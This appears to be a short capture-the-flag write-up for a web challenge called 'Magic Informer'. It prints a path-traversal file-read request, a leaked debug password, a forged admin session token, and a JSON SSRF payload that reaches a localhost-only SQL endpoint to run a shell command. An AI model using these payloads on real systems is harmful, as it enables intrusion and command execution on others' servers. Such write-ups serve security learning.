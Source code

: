 # Magic Informer
* Uploading file seems to get a hash returned:
Could use LFI:

Found debug.env

DEBUG_PASS=CzliwZJkV60hpPJ

Found source code... via LFI from `/download?resume=....//....//....//app//package.json` originally tried brute forcing the password... then looked deeped and noticed admin only required an unsigned cookie - so added that to gain access to dashboard,
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY5OTk3MTY0fQ.LuJQeLhAsrhiCRGkGFNvSBaZecWXqG6sq1OPueTKHrg
```

Looked like the sql debug endpoing could only come from localhost, luckily we had the sms-test endpoint whic could use. ended up with the following payload to `POST /api/sms/test`:

```json
{"verb":"POST","url":"http://127.0.0.1:1337/debug/sql/exec","params":"{\"sql\":\".shell ls\",\"password\":\"CzliwZJkV60hpPJ\"}","headers":"Content-Type: application/json\nCookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY5OTk3MTY0fQ.LuJQeLhAsrhiCRGkGFNvSBaZecWXqG6sq1OPueTKHrg","resp_ok":"<status>ok</status>","resp_bad":"<status>error</status>"}
```
